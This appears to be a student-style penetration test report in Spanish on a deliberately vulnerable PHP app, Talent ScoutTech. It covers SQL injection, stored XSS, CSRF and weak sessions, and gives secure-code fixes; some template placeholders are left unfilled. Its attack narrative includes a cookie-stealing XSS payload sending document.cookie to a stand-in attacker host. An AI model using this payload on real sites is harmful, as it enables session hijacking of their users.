


# Informe de Pruebas de Penetración - Talent ScoutTech

*   **Auditores: Secure Shield Pentesting S.L.:**
    *   Francisco Javier Rodriguez Acosta
*   **Cliente:** ACME
*   **Aplicación Auditada:** Talent ScoutTech
*   **Fecha del Informe:** 2024-05-28

*   [Enlace a Acuerdo de Pentesting (Ejemplo)](Acuerdo-Pentesting-TalentScoutTech.md) <!-- Crear este archivo o enlazar al real -->

<!--  Reemplazar con logo de ACME o eliminar -->

---

## Índice

1.  [Introducción](#1-introducción)
    *   1.1 [Objetivos](#11-objetivos)
    *   1.2 [Alcance](#12-alcance)
    *   1.3 [Límites o Rules of Engagement (ROE)](#13-límites-o-rules-of-engagement-roe)
    *   1.4 [Metodología](#14-metodología)
2.  [Descargo de responsabilidad](#2-descargo-de-responsabilidad)
3.  [Información de contacto del Auditor](#3-información-de-contacto-del-auditor)
4.  [Índice de Gravedad](#4-índice-de-gravedad)
5.  [Resumen Ejecutivo y Hallazgos](#5-resumen-ejecutivo-y-hallazgos)
    *   5.1 [Resumen Ejecutivo](#51-resumen-ejecutivo)
    *   5.2 [Hallazgos Principales (Resumidos)](#52-hallazgos-principales-resumidos)
    *   5.3 [Perfil de Riesgo](#53-perfil-de-riesgo)
6.  [Fase de Reconocimiento y Análisis de la Aplicación](#6-fase-de-reconocimiento-y-análisis-de-la-aplicación)
7.  [Detalle de Vulnerabilidades Explotadas](#7-detalle-de-vulnerabilidades-explotadas)
    *   7.1 [SQL001: Inyección SQL en Funcionalidad de Login](#71-sql001-inyección-sql-en-funcionalidad-de-login)
    *   7.2 [SQL002: SQLi y Control de Acceso Roto en Añadir Comentario](#72-sql002-sqli-y-control-de-acceso-roto-en-añadir-comentario)
    *   7.3 [XSS001: Cross-Site Scripting Almacenado en Comentarios](#73-xss001-cross-site-scripting-almacenado-en-comentarios)
    *   7.4 [XSS002: Cross-Site Scripting en Listados y Búsqueda](#74-xss002-cross-site-scripting-en-listados-y-búsqueda)
    *   7.5 [CSRF001: Cross-Site Request Forgery (vía XSS)](#75-csrf001-cross-site-request-forgery-vía-xss)
    *   7.6 [BAC001: Controles de Autenticación y Sesión Débiles](#76-bac001-controles-de-autenticación-y-sesión-débiles)
    *   7.7 [INFO001: Exposición de Código Fuente](#77-info001-exposición-de-código-fuente)
8.  [Resumen de Vulnerabilidades (Tabla)](#8-resumen-de-vulnerabilidades-tabla)
9.  [Narrativa de un Escenario de Ataque Potencial](#9-narrativa-de-un-escenario-de-ataque-potencial)
10. [Recomendaciones Generales de Seguridad para Aplicaciones Web](#10-recomendaciones-generales-de-seguridad-para-aplicaciones-web)
11. [Conclusión](#11-conclusión)

---

## 1. Introducción

Este informe presenta los resultados de una prueba de penetración realizada sobre la aplicación web **Talent ScoutTech**, desarrollada por **ACME**. El objetivo principal ha sido evaluar la seguridad de la aplicación desde la perspectiva de un atacante, enfocándose en la identificación, explotación y documentación de vulnerabilidades de seguridad.

La prueba se desarrolló sobre una instancia de la aplicación proporcionada o desplegada localmente, simulando un entorno de desarrollo o pruebas. Las acciones se ajustaron a los límites definidos en el acuerdo de alcance y reglas de compromiso. Este informe tiene como fin proporcionar a ACME una visión clara de su postura de seguridad actual y recomendaciones accionables para mitigar los riesgos identificados.

### 1.1 Objetivos

Los objetivos específicos de esta prueba de penetración fueron:

*   Identificar y explotar vulnerabilidades de **Inyección SQL (SQLi)** para acceder o manipular datos de la base de datos.
*   Detectar y demostrar vulnerabilidades de **Cross-Site Scripting (XSS)**, tanto almacenado como reflejado.
*   Evaluar la robustez de los mecanismos de **autenticación y gestión de sesiones**, identificando debilidades que permitan la suplantación de usuarios o el acceso no autorizado.
*   Analizar la aplicación en busca de vulnerabilidades de **Control de Acceso Roto**.
*   Investigar la posibilidad de ataques de **Cross-Site Request Forgery (CSRF)**, especialmente en combinación con XSS.
*   Identificar **configuraciones de seguridad incorrectas** o exposición de información sensible (ej. archivos de backup como `add_comment.php~`).
*   Documentar las vulnerabilidades explotadas y proporcionar una narrativa de ataque plausible.
*   Proporcionar recomendaciones detalladas y priorizadas para la mitigación de las vulnerabilidades encontradas.

### 1.2 Alcance

La prueba se centró exclusivamente en la aplicación web **Talent ScoutTech** y sus componentes accesibles vía HTTP/S.

*   **Aplicación Principal:** Talent ScoutTech
    *   URLs/Endpoints: Todos los archivos `.php` y funcionalidades accesibles de la aplicación (ej. `index.php`, `login.php`, `register.php`, `list_players.php`, `insert_player.php`, `show_comments.php`, `add_comment.php`, `buscador.php`, etc.).
    *   Archivos de backup expuestos (ej. `add_comment.php~`).
    *   Base de datos SQLite subyacente (evaluada a través de vulnerabilidades de inyección).
*   **Archivos de Configuración o Código Fuente de la Carpeta `private`:** Analizados según lo permitido por el enunciado del proyecto (ej. `private/auth.php`, `private/conf.php`) para entender la lógica y proponer correcciones.

**Fuera del Alcance:**

*   La infraestructura de servidor subyacente (sistema operativo, servidor web Apache más allá de configuraciones básicas como `.htaccess` para la carpeta `private` y recomendaciones generales de la Parte 4 del proyecto original).
*   Ataques de Denegación de Servicio (DoS/DDoS) disruptivos.
*   Ingeniería social.
*   La aplicación `http://web.pagos/` (usada solo como un ejemplo teórico para CSRF).

### 1.3 Límites o Rules of Engagement (ROE)

*   Las pruebas se realizaron en un entorno de desarrollo/pruebas local.
*   No se realizaron acciones que pudieran impactar negativamente la disponibilidad o integridad de datos en un sistema de producción real.
*   La modificación de datos se limitó a lo necesario para demostrar la explotación de vulnerabilidades.
*   Se evitó la exfiltración masiva de datos; solo se obtuvieron muestras para confirmar el acceso.
*   Los datos sensibles descubiertos (si los hubiera) se manejarían con confidencialidad y se reportarían directamente al cliente.
*   Cualquier hallazgo crítico que pudiera indicar un compromiso activo o un riesgo inminente se comunicaría de inmediato.

### 1.4 Metodología

La prueba de penetración siguió una metodología basada en el **OWASP Web Security Testing Guide (WSTG)** y el **OWASP Top 10**, adaptada a los objetivos del proyecto. Las fases principales fueron:

1.  **Fase de Pre-interacción (Setup):** Definición del alcance, objetivos y ROE con el cliente (simulado).
2.  **Recopilación de Información (Information Gathering):**
    *   Mapeo manual y automatizado (con ZAP en modo pasivo) de la aplicación para entender su estructura, funcionalidades y puntos de entrada.
    *   Identificación de tecnologías (PHP, SQLite, Apache).
    *   Búsqueda de directorios y archivos comunes o expuestos (ej. `add_comment.php~`).
3.  **Modelado de Amenazas y Análisis de Vulnerabilidades (Threat Modeling & Vulnerability Analysis):**
    *   Identificación de posibles vectores de ataque basados en la información recopilada.
    *   Pruebas manuales enfocadas en clases de vulnerabilidades OWASP Top 10 (Inyección, Autenticación Rota, XSS, Control de Acceso Roto, etc.).
    *   Uso de herramientas como OWASP ZAP para escaneo activo (controlado) y fuzzing (ej. ataque de diccionario en login).
    *   Revisión de código fuente (cuando disponible o inferido por errores) para identificar patrones de codificación inseguros.
4.  **Explotación (Exploitation):**
    *   Intento de explotar las vulnerabilidades identificadas de forma controlada para confirmar su existencia e impacto.
    *   Obtención de Pruebas de Concepto (PoC) para cada vulnerabilidad validada.
5.  **Post-Explotación (Post-Exploitation):**
    *   En este contexto, implicaría evaluar el impacto de una explotación exitosa (ej. qué datos se pueden ver/modificar tras un bypass de SQLi, qué acciones se pueden realizar con una sesión XSS robada).
6.  **Reporte (Reporting):**
    *   Documentación exhaustiva de todos los hallazgos, incluyendo descripción, pasos de reproducción, PoC, impacto, nivel de riesgo y recomendaciones detalladas para la mitigación.

---

## 2. Descargo de responsabilidad

Este informe ha sido elaborado con base en la evaluación de seguridad realizada sobre la aplicación **Talent ScoutTech** según lo especificado por **ACME**. Los hallazgos, conclusiones y recomendaciones presentadas reflejan las condiciones observadas en el momento de la evaluación ([Periodo de Evaluación]). **[Tu Nombre/Nombre de tu Equipo/Empresa Auditora]** no se hace responsable por cualquier uso indebido, interpretación errónea o acción que se derive de la información contenida en este informe. ACME es responsable de evaluar y tomar las medidas que considere necesarias para mitigar los riesgos identificados. La seguridad es un proceso continuo y este informe representa una instantánea en el tiempo; nuevas vulnerabilidades pueden surgir o ser descubiertas posteriormente.

---

## 3. Información de contacto del Auditor

| Campo             | Detalle                                         |
| :---------------- | :---------------------------------------------- |
| **Auditor Ppal**  | Francisco Javier Rodriguez Acosta               |
| **Empresa (Ej.)** | Consultor de Seguridad Independiente (o nombre de empresa) |
| **Email**         | [Tu Email de Contacto]                          |
| **Teléfono**      | [Tu Teléfono de Contacto]                       |

---

## 4. Índice de Gravedad

| **Gravedad** | **CVSS / Puntuación Estimada** | **Definición** |
| :---: | :---: | :---: |
| Crítica  🟥 | 9.0 - 10.0 | Vulnerabilidad fácil de explotar, que puede permitir el compromiso total de la aplicación, acceso a todos los datos, o ejecución de código a nivel de servidor. Requiere actuación inmediata. |
| Alta 🟧     | 7.0 - 8.9   | Vulnerabilidad que puede producir un impacto grave, como acceso no autorizado a funcionalidades sensibles, suplantación de otros usuarios, o lectura/modificación extensa de datos. Debe solucionarse lo antes posible. |
| Moderada 🟨 | 4.0 - 6.9 | Vulnerabilidad que podría permitir acceso limitado a datos, o ser explotada bajo condiciones específicas, o requerir interacción del usuario. Solucionar cuando no haya vulnerabilidades de gravedad superior. |
| Baja 🟩     | 0.1 - 3.9 | Vulnerabilidad con bajo impacto, difícil de explotar, o que expone información no crítica. Recomendable mitigar como parte de buenas prácticas. |
| Informacional ℹ️ | N/A | Hallazgo que no representa una vulnerabilidad directa pero es relevante para la postura de seguridad (ej. versiones de software, cabeceras informativas). |

---

## 5. Resumen Ejecutivo y Hallazgos

### 5.1 Resumen Ejecutivo

Se realizó una prueba de penetración a la aplicación web **Talent ScoutTech** de ACME entre el [Fecha Inicio Pruebas] y el [Fecha Fin Pruebas]. La evaluación reveló **múltiples vulnerabilidades de seguridad críticas y altas**, que exponen la aplicación a riesgos significativos. Las principales categorías de fallas incluyen **Inyección SQL (SQLi)**, **Cross-Site Scripting (XSS)**, y **Controles de Autenticación y Acceso Débiles**.

La explotación exitosa de estas vulnerabilidades demostró la posibilidad de eludir la autenticación, obtener acceso no autorizado a cuentas de usuario (incluyendo la potencial enumeración de credenciales válidas como `luis`/`1234`), manipular y visualizar datos de la base de datos, publicar contenido en nombre de otros usuarios, y ejecutar código JavaScript arbitrario en los navegadores de los usuarios visitantes. Este último vector (XSS) podría ser utilizado para robar sesiones de usuario o redirigir a los usuarios a sitios maliciosos para ataques de phishing o CSRF.

La exposición de código fuente a través de archivos de backup (ej. `add_comment.php~`) también fue un factor que facilitó la identificación de algunas de estas debilidades.

Dada la severidad de los hallazgos, **se requiere una acción de remediación urgente** por parte de ACME para proteger la integridad de la aplicación, la confidencialidad de los datos de los jugadores y usuarios, y la reputación de la plataforma Talent ScoutTech.

### 5.2 Hallazgos Principales (Resumidos)

1.  **SQL001 (Crítico): Inyección SQL en Login:** Permite el bypass de autenticación.
2.  **SQL002 (Crítico): SQLi y Control de Acceso Roto en Añadir Comentario:** Permite suplantación al publicar comentarios.
3.  **XSS001 (Alto): XSS Almacenado en Comentarios:** Permite ejecución de scripts en navegadores de víctimas.
4.  **BAC001 (Alto): Controles de Autenticación y Sesión Débiles:** Facilita compromiso de cuentas y suplantación.
5.  **XSS002 (Medio/Alto): XSS en Listados y Búsqueda:** Potencial ejecución de scripts.
6.  **CSRF001 (Medio): CSRF vía XSS:** Permite forzar acciones en nombre de usuarios.
7.  **INFO001 (Bajo): Exposición de Código Fuente:** Facilita análisis al atacante.

### 5.3 Perfil de Riesgo

El perfil de riesgo general de la aplicación **Talent ScoutTech** se evalúa como **CRÍTICO**.

| Nivel de Riesgo (Validado) | Total Hallazgos |
| :------------------------- | :-------------- |
| 🟥 Crítico                 | 2               |
| 🟧 Alto                    | 3               |
| 🟨 Medio                   | 1               |
| 🟩 Bajo                    | 1               |
| **Total (Validado)**       | **7**           |

Esta evaluación se basa en la facilidad de explotación de las vulnerabilidades críticas (SQLi en login, Suplantación en comentarios) y el alto impacto de las vulnerabilidades XSS y de autenticación, que en conjunto podrían llevar a un compromiso completo de la funcionalidad y los datos de la aplicación.

---

## 6. Fase de Reconocimiento y Análisis de la Aplicación

Durante esta fase, se procedió a un análisis exhaustivo de la aplicación Talent ScoutTech para entender su funcionalidad, puntos de entrada y tecnologías subyacentes.

*   **Mapeo de la Aplicación:**
    *   Funcionalidades principales identificadas: Login (`index.php`, `private/auth.php`), Registro (`register.php`), Listado de Jugadores (`list_players.php`), Búsqueda (`buscador.php`), Añadir/Editar Jugador (`insert_player.php`), Ver Comentarios (`show_comments.php`), Añadir Comentario (`add_comment.php`).
    *   Puntos de entrada de datos: Formularios de Login, Registro, Añadir/Editar Jugador, Añadir Comentario, Búsqueda. Parámetros GET (ej. `id` en `show_comments.php`), Cookies (ej. `userId` antes de corrección).
*   **Identificación de Tecnologías:** PHP, SQLite3, Apache.
*   **Descubrimiento de Archivos Sensibles:** Identificación de `add_comment.php~` (backup de código fuente).
*   **Análisis de Flujo de Autenticación y Sesión:** Login establece cookies `user`, `userId`, `PHPSESSID`. Se observó dependencia incorrecta de `$_COOKIE['userId']` en `add_comment.php`.
*   **Uso de Herramientas:** OWASP ZAP (fuzzing login, escaneo pasivo/activo), Herramientas de Desarrollador del Navegador.

---

## 7. Detalle de Vulnerabilidades Explotadas

### 7.1. SQL001: Inyección SQL en Funcionalidad de Login
*   **Descripción:** Concatenación directa de `username` en query SQL en `private/auth.php` permite bypass de autenticación. `SQLite3::escapeString()` mal utilizado.
*   **Prueba de Concepto:**
    *   Usuario: `"hola` (para provocar error y revelar query).
        *   *Evidencia:*
    *   Ataque de diccionario con ZAP Fuzzer identificó `luis` / `1234`.
        *   *Evidencia:* 
*   **Impacto:** Acceso no autorizado como cualquier usuario.
*   **Severidad:** **Crítica** 🟥 (CVSS v3.1 Estimado: 9.8)
*   **Recomendación:** Usar consultas preparadas con `bindValue` en `private/auth.php`.
    ```php
    // private/auth.php (o script de login)
    $stmt = $db->prepare('SELECT userId, password FROM users WHERE username = :username');
    $stmt->bindValue(':username', $_POST['username'], SQLITE3_TEXT);
    // ... verificar con password_verify ...
    ```

### 7.2. SQL002: SQLi y Control de Acceso Roto en Añadir Comentario
*   **Descripción:** `add_comment.php` usa `$_COOKIE['userId']` (controlable por el cliente) para identificar al autor y concatena `$_GET['id']` (playerId) en query `INSERT` sin sanitización adecuada, permitiendo suplantación y potencial SQLi adicional.
*   **Prueba de Concepto:** Modificar cookie `userId` al ID de otro usuario (ej. `1` para `luis`) antes de enviar comentario. El comentario se publica a nombre de `luis`.
    *   *(No se proporcionó imagen específica para este PoC, la descripción textual sirve como PoC conceptual)*
*   **Impacto:** Suplantación de identidad al publicar comentarios.
*   **Severidad:** **Crítica** 🟥 (CVSS v3.1 Estimado: 9.1)
*   **Recomendación:** Obtener `userId` **exclusivamente** de `$_SESSION['userId']` (establecida tras login seguro). Usar consultas preparadas para `playerId`, `userId` y `body`. Validar `playerId` como entero.
    ```php
    // add_comment.php
    session_start(); // Asegurar sesión iniciada
    if (!isset($_SESSION['userId'])) { /* redirigir a login o error */ exit(); }
    $userId = $_SESSION['userId']; // CORRECTO
    $playerId = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
    if ($playerId === false || $playerId === null) { die("ID de jugador inválido."); }
    $body = $_POST['body'];
    $stmt = $db->prepare("INSERT INTO comments (playerId, userId, body) VALUES (:pid, :uid, :body)");
    $stmt->bindValue(':pid', $playerId, SQLITE3_INTEGER);
    $stmt->bindValue(':uid', $userId, SQLITE3_INTEGER);
    $stmt->bindValue(':body', $body, SQLITE3_TEXT);
    $stmt->execute();
    // ...
    ```

### 7.3. XSS001: Cross-Site Scripting Almacenado en Comentarios
*   **Descripción:** `show_comments.php` muestra `username` y `body` de comentarios sin escapar, permitiendo ejecución de JS almacenado. También vulnerable a SQLi vía `$_GET['id']`.
*   **Prueba de Concepto:** Comentario: `<script>alert('XSS Vulnerable!');</script>`
    *   *Evidencia:* 
    *   *Evidencia:* 
*   **Impacto:** Robo de sesión, defacement, CSRF.
*   **Severidad:** **Alta** 🟧 (CVSS v3.1 Estimado: 8.7)
*   **Recomendación:** Escapar `username` y `body` con `htmlspecialchars()` en `show_comments.php`. Usar consultas preparadas para `$_GET['id']`.
    ```php
    // show_comments.php
    // Para SQLi:
    $playerId_input = filter_input(INPUT_GET, 'id', FILTER_VALIDATE_INT);
    // ... usar $stmt->bindValue(':playerId', $playerId_input, SQLITE3_INTEGER); ...
    // Para XSS:
    echo htmlspecialchars($row['username'], ENT_QUOTES, 'UTF-8');
    echo htmlspecialchars($row['body'], ENT_QUOTES, 'UTF-8');
    ```

### 7.4. XSS002: Cross-Site Scripting en Listados y Búsqueda
*   **Descripción:** `list_players.php` y `buscador.php` muestran `name` y `team` sin escapar. Potencial XSS almacenado si la entrada de estos campos no se sanitiza.
*   **Prueba de Concepto:** Nombre de jugador: ``
    *   *(No se proporcionó imagen específica para este PoC)*
*   **Impacto:** Similar a XSS001 si se logra almacenar.
*   **Severidad:** **Media 🟨 a Alta 🟧**
*   **Recomendación:** Escapar `name` y `team` con `htmlspecialchars()` en `list_players.php` y `buscador.php`.

### 7.5. CSRF001: Cross-Site Request Forgery (vía XSS)
*   **Descripción:** XSS001 puede usarse para forzar peticiones CSRF (GET/POST) a `http://web.pagos/` u otros endpoints. Se demuestra la creación de un botón "Profile" que redirige a la URL maliciosa.
*   **Prueba de Concepto:** Script XSS que auto-envía un formulario POST o modificación de `list_players.php` para incluir el botón "Profile".
    *   *Evidencia:* 
    *   *Evidencia:* 
*   **Impacto:** Acciones no autorizadas en nombre de la víctima.
*   **Severidad:** **Media** 🟨
*   **Recomendación:** Corregir XSS (XSS001). Implementar tokens Anti-CSRF en Talent ScoutTech para todas las acciones que cambian estado.

### 7.6. BAC001: Controles de Autenticación y Sesión Débiles
*   **Descripción:** Registro público inseguro (hashing débil/ausente, sin validación). Login sin anti-fuerza bruta. Mal uso de cookies para `userId` (ver SQL002). `register.php` público. Carpeta `private` potencialmente expuesta.
*   **Prueba de Concepto:** Registro con contraseña trivial, manipulación de cookie `userId` para explotar SQL002.
    *   *(No se proporcionaron imágenes específicas para este PoC, la descripción textual y la referencia a SQL002 sirven como PoC conceptual)*
*   **Impacto:** Creación de cuentas no deseadas, suplantación, compromiso de credenciales.
*   **Severidad:** **Alta** 🟧
*   **Recomendación:**
    *   Registro: Usar `password_hash()` con algoritmo moderno, validar todas las entradas, restringir acceso a `register.php` (ej. solo administradores o con token de invitación).
    *   Login: Limitar intentos de login fallidos por IP/usuario.
    *   Sesiones: Usar `$_SESSION` para almacenar `userId` y otros datos de sesión. Regenerar ID de sesión tras login (`session_regenerate_id(true)`). Configurar cookies de sesión con atributos `HttpOnly`, `Secure` (para HTTPS), y `SameSite=Lax` o `Strict`.
    *   Carpeta `private`: Asegurar que no sea accesible desde la web usando `.htaccess` (`Require all denied`) o moviéndola fuera del `DocumentRoot`.

### 7.7. INFO001: Exposición de Código Fuente
*   **Descripción:** Archivo `add_comment.php~` expone código fuente, facilitando la identificación de la vulnerabilidad SQL002.
*   **Impacto:** Reduce el esfuerzo del atacante para encontrar vulnerabilidades.
*   **Severidad:** **Baja** 🟩
*   **Recomendación:** No dejar archivos de backup (con extensiones como `~`, `.bak`, `.old`, etc.) en directorios accesibles por la web. Configurar el servidor web para no servir estos tipos de archivos o denegar su listado.

---

## 8. Resumen de Vulnerabilidades (Tabla)

| ID      | Vulnerabilidad Breve                                        | Tipo        | Gravedad | Explotada | CVE / CWE       |
| :------ | :---------------------------------------------------------- | :---------- | :------- | :-------- | :-------------- |
| SQL001  | Inyección SQL en Login                                      | SQLi        | Crítica  | Sí        | CWE-89          |
| SQL002  | SQLi y Control Acceso Roto en Añadir Comentario             | SQLi/AuthZ  | Crítica  | Sí        | CWE-89, CWE-284 |
| XSS001  | XSS Almacenado en Comentarios                               | XSS         | Alta     | Sí        | CWE-79          |
| XSS002  | XSS en Listados y Búsqueda                                  | XSS         | Media/Alta| Parcial   | CWE-79          |
| CSRF001 | CSRF vía XSS (Donación Simulada)                            | CSRF/XSS    | Media    | Sí (PoC)  | CWE-352, CWE-79 |
| BAC001  | Controles de Autenticación y Sesión Débiles                 | Auth/SessMgt| Alta     | Sí (Anál.)| CWE-287, CWE-384, CWE-522, CWE-613 |
| INFO001 | Exposición de Código Fuente (`add_comment.php~`)            | InfoExpo    | Baja     | N/A (Usado)| CWE-541         |

---

## 9. Narrativa de un Escenario de Ataque Potencial

1.  **Reconocimiento:** El atacante descubre el archivo `add_comment.php~` (INFO001), revelando el uso inseguro de `$_COOKIE['userId']`.
2.  **Bypass Login (SQL001):** El atacante usa una Inyección SQL en el formulario de login para obtener acceso como el usuario `luis` (credenciales `luis`/`1234` también podrían ser obtenidas por fuerza bruta o diccionario si la SQLi no fuera directa para bypass).
3.  **Inyectar XSS (XSS001):** Autenticado como `luis`, el atacante publica un comentario en un jugador popular con un payload XSS diseñado para robar cookies: `<script>new Image().src='http://atacante.com/log.php?c='+document.cookie;</script>`.
4.  **Robo de Sesión de Administrador:** Un administrador de Talent ScoutTech visualiza la página de comentarios del jugador infectado. Su navegador ejecuta el script XSS, enviando su cookie de sesión (incluyendo `PHPSESSID` y potencialmente otras como `user`, `userId`) al servidor del atacante.
5.  **Suplantación de Administrador:** El atacante toma la cookie de sesión del administrador y la usa en su propio navegador para suplantar al administrador dentro de Talent ScoutTech, obteniendo acceso a todas las funcionalidades administrativas.
6.  **Publicación Maliciosa como Otro Usuario (SQL002):** El atacante (ahora como administrador, o incluso desde su cuenta `luis` si no hubiera obtenido sesión de admin) decide publicar comentarios difamatorios. Modifica su propia cookie `userId` al ID de un usuario víctima específico y envía un nuevo comentario. Dicho comentario aparece como si lo hubiera publicado el usuario víctima, explotando el control de acceso roto en `add_comment.php`.
7.  **Ataque CSRF (Opcional, CSRF001):** Si el payload XSS del paso 3 fuera diferente, podría forzar al navegador del administrador a realizar acciones no deseadas dentro de Talent ScoutTech (ej. eliminar un jugador) o en un sitio externo si el administrador estuviera autenticado allí.

**Resultado:** El atacante ha obtenido control administrativo, ha suplantado usuarios y podría haber causado daño reputacional significativo y manipulación de datos.

---

## 10. Recomendaciones Generales de Seguridad para Aplicaciones Web

Además de las mitigaciones específicas para cada vulnerabilidad detallada en la Sección 7, se proponen las siguientes recomendaciones generales basadas en las mejores prácticas de OWASP:

1.  **Validar Todas las Entradas (A03:2021-Injection):** Sanitizar y validar rigurosamente todas las entradas del usuario en el lado del servidor.
2.  **Codificar Datos en Salida (A03:2021-Injection - XSS):** Escapar adecuadamente todos los datos dinámicos antes de insertarlos en el cliente.
3.  **Usar Consultas Parametrizadas (A03:2021-Injection - SQLi):** Implementar consultas preparadas para todas las interacciones con la base de datos.
4.  **Implementar Controles de Autenticación y Sesión Robustos (A07:2021-Identification and Authentication Failures):** Hashing fuerte, protección anti-fuerza bruta, IDs de sesión seguros y regenerados, cookies seguras.
5.  **Aplicar Controles de Acceso Estrictos (A01:2021-Broken Access Control):** Verificar permisos en servidor, denegar por defecto.
6.  **Implementar Protección Anti-CSRF (A01:2021-Broken Access Control):** Usar tokens sincronizadores para acciones que cambian estado.
7.  **Mantener Componentes Actualizados (A06:2021-Vulnerable and Outdated Components):** PHP, Apache, SQLite, librerías.
8.  **Configuración Segura (A05:2021-Security Misconfiguration):** Deshabilitar listado de directorios, eliminar archivos innecesarios, cabeceras HTTP de seguridad.
9.  **Monitoreo y Logging (A09:2021-Security Logging and Monitoring Failures):** Registrar y monitorear eventos de seguridad.
10. **Ciclo de Vida de Desarrollo Seguro (SSDLC):** Incorporar revisiones de seguridad y pruebas periódicas.

---

## 11. Conclusión

La aplicación web **Talent ScoutTech** presenta **vulnerabilidades significativas** que, si son explotadas, podrían llevar a un compromiso grave de la aplicación, sus datos y sus usuarios. Las fallas de Inyección SQL, Cross-Site Scripting, y los débiles controles de autenticación y acceso son de especial preocupación y requieren **atención y remediación inmediata** por parte de ACME.

Se recomienda encarecidamente aplicar todas las mitigaciones detalladas en este informe, priorizando las vulnerabilidades críticas y altas. Además, es fundamental adoptar un enfoque proactivo hacia la seguridad, integrando prácticas de desarrollo seguro en todo el ciclo de vida de la aplicación y realizando evaluaciones de seguridad periódicas para mantener una postura de defensa robusta.

---
